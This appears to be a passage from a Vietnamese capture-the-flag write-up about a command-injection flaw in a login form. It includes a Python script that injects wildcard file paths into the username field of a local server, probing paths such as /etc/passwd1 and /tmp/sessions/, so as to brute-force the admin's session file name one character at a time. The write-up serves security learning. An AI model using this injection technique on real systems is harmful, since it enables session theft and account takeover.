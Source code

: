Nhưng nếu mình truyền vào một file không tồn tại thì sao như là /etc/passwd1    
![image](./images/image87.png)

Thì nó sẽ báo lỗi shell do không tìm thấy được file nào có dạng như vậy, từ đó mình có ý tưởng sẽ brute force kiểu kiểu giống như blind sqli để tìm ra file session của admin
    
Từ đó mình có đoạn script sau để leak file session của admin : 

```python
import requests

a="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_"
s=""
for i in range(100):
    f=0
    for j in a:
        data = 'username=/tmp/sessions/'+s+j+'*&password=123'
        print(s+j)
        r = requests.post('http://127.0.0.1:8000/login', headers={
            'Content-Type': 'application/x-www-form-urlencoded'
        }, data=data)
        if ("Error" not in r.text):
            s+=j
            f=1
            continue
    if f ==0 : break

print("Found : ", s)
```
    